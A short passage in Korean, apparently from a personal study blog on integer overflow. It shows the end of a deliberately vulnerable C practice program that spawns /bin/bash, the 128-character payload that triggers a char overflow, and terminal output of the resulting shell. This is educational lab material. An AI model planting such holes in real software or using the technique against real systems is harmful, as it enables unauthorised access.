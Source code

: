 ```c
 26         system("/bin/bash");
 27     }
 28 
 29     return 0;
 30 }
```

이제 여기서 생기는 정수 오버플로우를 이용하여 공격하면 된다.

간단하게 임의로 작성한것이기 때문에 정수 오버플로우 외에도 여러가지 공격이 가능할것으로 예상이 된다.
하지만 이 문제는 정수 오버플로우를 실습하기 위해 만들어졌으므로 이를 이용하여 공격해보자.

페이로드는 간단하다.

먼저 char 는 overflow 가 128일때 나타나기 때문에 이 만큼의 문자열을 넣어주면 깔끔하게 쉘을 띄울 수 있다.

```bash
fkillrra@ubuntu  ~/Study/Integer_overflow  ./vuln_example `python -c 'print "A"*128'`
I'm 9#
fkillrra@ubuntu:~/Study/Integer_overflow$ id
uid=1000(fkillrra) gid=1000(fkillrra) groups=1000(fkillrra),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
fkillrra@ubuntu:~/Study/Integer_overflow$ whoami
fkillrra
fkillrra@ubuntu:~/Study/Integer_overflow$ 
```

like this..

이상 integer overflow에 대해 알아보았다.
